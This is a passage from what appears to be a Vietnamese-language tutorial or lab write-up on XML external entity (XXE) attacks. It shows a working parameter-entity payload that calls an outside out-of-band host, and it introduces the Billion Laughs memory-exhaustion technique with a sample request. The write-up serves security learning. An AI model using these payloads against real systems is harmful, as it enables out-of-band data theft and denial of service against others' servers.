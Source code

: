 
Vì khai báo kiểu thông thường bị block nên ta dùng ``parameter entity``:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://ywy2xnkgfa21yppymd4w623z4qagy5.oastify.com">%xxe;]>
```

Output:
![lab4](./img/lab4-output.png)

## 11. Billion Laughs Attack 
Ngoài ra thì XXE cũng có thể thực hiện một kỹ thuật tấn công gọi là Billion Laughs Attack. Kỹ thuật này lợi dụng việc XML parser không giới hạn dung lượng bộ nhớ mà nó có thể sử dụng, từ đó ta có thể dùng đệ quy để làm tràn bộ nhớ của target.

Ví dụ một tình huống sau:
Request:
```xml
POST http://example.com/xml HTTP/1.1

<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [<!ENTITY name "endy">]>
  <name>  
  Hello &name; and welcome to my website!
  </name>
```
